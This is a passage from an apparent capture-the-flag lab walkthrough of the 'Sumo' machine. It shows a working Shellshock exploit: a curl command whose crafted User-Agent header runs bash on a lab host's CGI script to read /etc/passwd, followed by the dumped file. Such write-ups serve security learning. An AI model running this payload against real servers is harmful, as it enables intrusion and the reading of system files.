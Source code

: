 
## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sumo/Untitled.png)

Now Lets try this shellshock exploit →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://192.168.233.87/cgi-bin/test 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```
{: .nolineno}
